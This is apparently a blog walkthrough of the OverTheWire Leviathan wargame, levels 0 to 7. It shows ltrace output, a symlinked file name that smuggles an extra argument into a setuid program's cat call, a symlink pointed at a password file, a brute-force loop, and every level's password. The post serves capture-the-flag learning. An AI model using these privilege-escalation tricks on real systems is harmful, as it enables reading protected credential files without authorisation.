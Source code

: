 ```yaml
---
layout: post
title: OverTheWire - Leviathan 0-7
---
```


## Prompt

Dare you face the lord of the oceans?

Leviathan is a wargame that has been rescued from the demise of intruded.net, previously hosted on leviathan.intruded.net.

## Level 0

`leviathan0:leviathan0`

Check the hidden .backup folder, and look through the long bookmarks file.

```bash
leviathan0@leviathan:~/.backup$ grep leviathan bookmarks.html
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

## Level 1

`leviathan1:rioGegei8m`

We are presented with an executable with its setuid flag set, which means elevated privileges. Using a cheeky `ltrace`, we find the password in a `strcmp`.


```bash
leviathan1@leviathan:~$ file check
check: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c735f6f3a3a94adcad8407cc0fda40496fd765dd, not stripped
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x804853b, 1, 0xffffd784, 0x8048610 <unfinished ...>
printf("password: ")                                     = 10
getchar(1, 0, 0x65766f6c, 0x646f6700password: hi
)                    = 104
getchar(1, 0, 0x65766f6c, 0x646f6700)                    = 105
getchar(1, 0, 0x65766f6c, 0x646f6700)                    = 10
strcmp("hi\n", "sex")                                    = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                     = 29
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```
Reference: https://rainbow.chard.org/2011/10/02/debug-like-a-sysadmin/

## Level 2

`leviathan2:ougahZi8Ta`

Using `ltrace`, we can see that our parameter is passed into `cat` using string interpolation in `snprintf()` after `access()` checks whether the calling process can access the file pathname.

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                   = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                                     = 12002
geteuid()                                                     = 12002
setreuid(12002, 12002)                                        = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                        = 0
+++ exited (status 0) +++
```

So if we pass in the name of a file that can be read but includes our filename delimited with a space, we can bypass `access()` and open two files with `cat`. Because we cannot create file names that includes "/etc/leviathan_pass/leviathan3" due to the nature of the `/` character, we have to create a symbolic link to our password file to include.

```bash
leviathan2@leviathan:~$ mkdir /tmp/omicronjob && cd $_
leviathan2@leviathan:/tmp/omicronjob$ echo "dummy file" > dummy
leviathan2@leviathan:/tmp/omicronjob$ ln -s /etc/leviathan_pass/leviathan3 link
leviathan2@leviathan:/tmp/omicronjob$ echo "sneaky" > dummy\ link

```

It looks like our files were passed in. Success!

```bash
leviathan2@leviathan:/tmp/omicronjob$ ltrace ~/printfile "dummy link"
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("dummy link", 4)                                       = 0
snprintf("/bin/cat dummy link", 511, "/bin/cat %s", "dummy link") = 19
geteuid()                                                     = 12002
geteuid()                                                     = 12002
setreuid(12002, 12002)                                        = 0
system("/bin/cat dummy link"dummy file
/bin/cat: link: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                        = 256
+++ exited (status 0) +++
leviathan2@leviathan:/tmp/omicronjob$ ~/printfile "dummy link"
dummy file
Ahdiemoo1j
```
## Level 3

`leviathan3:Ahdiemoo1j`

Here the password is compared with "snlprintf".

```bash
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                    = -1
printf("Enter the password> ")                                = 20
fgets(Enter the password> letmein
"letmein\n", 256, 0xf7fc55a0)                           = 0xffffd590
strcmp("letmein\n", "snlprintf\n")                            = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                    = 19
+++ exited (status 0) +++
```

When we supply that string as the password, we are given a shell with leviathan4 privileges.

```
leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```

## Level 4

`leviathan4:vuH0coox6m`

It looks like our new binary just reads us the password which happens to be in binary.
```bash
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ls -al
total 16
dr-xr-x--- 2 root       leviathan4 4096 Aug 26  2019 .
drwxr-xr-x 3 root       root       4096 Aug 26  2019 ..
-r-sr-x--- 1 leviathan5 leviathan4 7352 Aug 26  2019 bin
leviathan4@leviathan:~/.trash$ ltrace ./bin
__libc_start_main(0x80484bb, 1, 0xffffd774, 0x80485b0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")                  = 0
+++ exited (status 255) +++
leviathan4@leviathan:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```
Converting the binary to ASCII gives us `Tith4cokei`.

## Level 5

`leviathan5:Tith4cokei`

This one is pretty simple. We just have to create a log file to be read from with elevated privileges.

```bash
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```

## Level 6

`leviathan6:UgaoFee4li`


```bash
leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
leviathan6@leviathan:~$ ./leviathan6 4444
Wrong
leviathan6@leviathan:~$ ltrace ./leviathan6 4444
__libc_start_main(0x804853b, 2, 0xffffd774, 0x80485e0 <unfinished ...>
atoi(0xffffd8ab, 0, 0xf7e40890, 0x804862b)                    = 4444
puts("Wrong"Wrong
)                                                 = 6
+++ exited (status 0) +++
```

Let's brute force it.

```bash
leviathan6@leviathan:~$ for i in {0000..9999}; do ./leviathan6 $i | grep -v Wrong; done
...
whoami
leviathan7
cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```

## Level 7

`leviathan7:ahy7MaeBo9`

The end!
